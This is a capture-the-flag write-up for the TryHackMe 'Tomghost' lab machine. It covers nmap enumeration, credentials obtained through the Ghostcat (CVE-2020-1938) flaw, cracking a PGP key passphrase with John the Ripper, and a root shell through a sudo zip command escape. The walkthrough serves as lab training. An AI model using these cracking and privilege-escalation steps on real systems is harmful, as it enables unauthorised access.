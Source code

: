 # Tomghost
> Silver Garcia - 07/05/2024

## Enumeration
nmap
```bash
sudo nmap -T4 -A -p- 10.10.177.54
Nmap scan report for 10.10.177.54
Host is up (0.15s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=5/7%OT=22%CT=1%CU=43920%PV=Y%DS=2%DC=T%G=Y%TM=663AE
OS:430%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=108%TI=Z%CI=I%II=I%TS=8)S
OS:EQ(SP=104%GCD=2%ISR=108%TI=Z%II=I%TS=8)OPS(O1=M508ST11NW7%O2=M508ST11NW7
OS:%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST11NW7%O6=M508ST11)WIN(W1=68DF%W
OS:2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NN
OS:SNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y
OS:%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR
OS:%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40
OS:%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G                                                     
OS:%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)                
                                                                
Network Distance: 2 hops                                        
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 554/tcp)
HOP RTT       ADDRESS
1   195.16 ms 10.8.0.1
2   195.21 ms 10.10.177.54

```

Got credentials using exploit for CVE-2020-1938
Credentials:
```
<description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  </description>
```

## Getting access
Got access with SSH using found credentials.

## Privilege escalation

### skyfuck
Found two files on `/home/skfuck` folder.
```
credential.pgp  tryhackme.asc
```

tryhackme.asc is a PGP private key.


Cracked tryhackme.asc key using John the Ripper.
1. gpg to John
```bash
gpg2john tryhackme.asc 

File tryhackme.asc
tryhackme:$gpg$*17*54*3072*713ee3f57cc950f8f89155679abe2476c62bbd286ded0e049f886d32d2b9eb06f482e9770c710abc2903f1ed70af6fcc22f5608760be*3*254*2*9*16*0c99d5dae8216f2155ba2abfcc71f818*65536*c8f277d2faf97480:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc
```
2. Put content on file and cracked it
```
john --format=gpg --wordlist=/usr/share/wordlists/rockyou.txt asc-john.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)  
```

With the passphrase, could decrypt `credential.pgp` file:
1. Import private key:
```bash
gpg --import tryhackme.asc
```
2. Decrypt pgp file
```bash
gpg --decrypt credential.pgp
```

Content of credential.pgp
```
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```
Got access as merlin user through SSH.

### merlin
Commands that can be run as sudo
```bash
sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

Got root access abusing ZIP runnig as sudo (Got from GTFObins)
```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
```